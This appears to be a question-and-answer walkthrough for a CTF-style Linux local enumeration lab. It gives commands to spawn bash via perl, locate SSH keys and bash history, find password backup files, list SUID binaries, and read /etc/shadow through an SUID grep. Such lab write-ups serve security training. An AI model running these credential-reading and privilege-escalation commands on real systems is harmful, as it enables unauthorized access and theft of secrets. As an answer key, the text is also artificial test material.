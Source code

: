 # Linux: Local Enumeration

- Let's go!

	  no answer needed

- How would you execute /bin/bash with perl?

	- `perl -e 'exec "/bin/bash";'`

- Where can you usually find the `id_rsa` file? (User = user)

	- `/home/user/.ssh/id_rsa`

- Is there an `id_rsa` file on the box? (yay/nay)

	- `nay`

- How would you print machine hardware name only?

	- `uname -m`

- Where can you find bash history?

	- `~/.bash_history`

- What's the flag?

	- `********************`

- Can you read /etc/passwd on the box? (yay/nay)

	- `yay`

- What's the password you found?

	- `find / -name *.bak -type f 2>/dev/null`
	- `cat /var/opt/passwords.bak`
	- `************`

- Did you find a flag?

	- `find / -type f -name "flag.conf" 2>/dev/null`
	- `cat /etc/sysconf/flag.conf`
	- `**************`

- Which SUID binary has a way to escalate your privileges on the box?

	- `find / -perm -4000 2>/dev/null`
	- `grep`

- What's the payload you can use to read /etc/shadow with this SUID?

	- `grep '' /etc/shadow`

- Try using those commands on your system! 

	  no answer needed

- Got it!

	  no answer needed

- Read the above and consider completing mentioned rooms.

	  no answer needed



